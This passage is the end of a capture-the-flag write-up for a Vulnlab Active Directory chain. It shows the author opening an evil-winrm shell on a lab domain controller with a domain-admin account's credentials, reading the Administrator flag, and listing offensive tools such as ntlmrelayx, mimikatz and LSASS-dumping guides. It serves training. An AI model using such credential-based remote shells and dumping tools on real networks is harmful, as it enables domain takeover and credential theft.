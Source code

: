 We can see that a successful authentication attempt came back for `dom_rgarner`. I verified that the user `dom_rgarner` is a domain admin and also has access to WinRM on the DC. You can view this in Bloodhound on the user's node.

So given that we have access to a domain admin, we can now take hold of the DC and authenticate to it to complete this chain. 

```
└─$ evil-winrm --ip 10.10.255.149 -u 'dom_rgarner' -p '[...snip...]'
 
Evil-WinRM shell v3.5
   
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\dom_rgarner\Documents> cat C:\Users\Administrator\Desktop\flag.txt
[...snip...]
*Evil-WinRM* PS C:\Users\dom_rgarner\Documents> hostname
dc01
```

As seen above, we are able to read the last flag within the Administrator home directory. This means that we have successfully compromised this chain!

![](/images/vulnlab/reflection-vl/i.png)

# Conclusion

This chain was very fun, and it definitely was a hard-hitter for Windows pivoting and privilege escalation. Learning how to do NTLM relay was very different, and I believe that it definitely helped with strengthening some skills. Big thanks to xct and r0BIT for developing this chain, it was great!

# Resources

https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py
https://github.com/dirkjanm/BloodHound.py
https://github.com/BloodHoundAD/BloodHound
https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview
https://github.com/BishopFox/sliver
https://github.com/ParrotSec/mimikatz
https://learn.microsoft.com/en-us/sysinternals/downloads/procdump
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz
https://dan-feliciano.com/2024/06/05/tengu/
https://github.com/GhostPack/Seatbelt

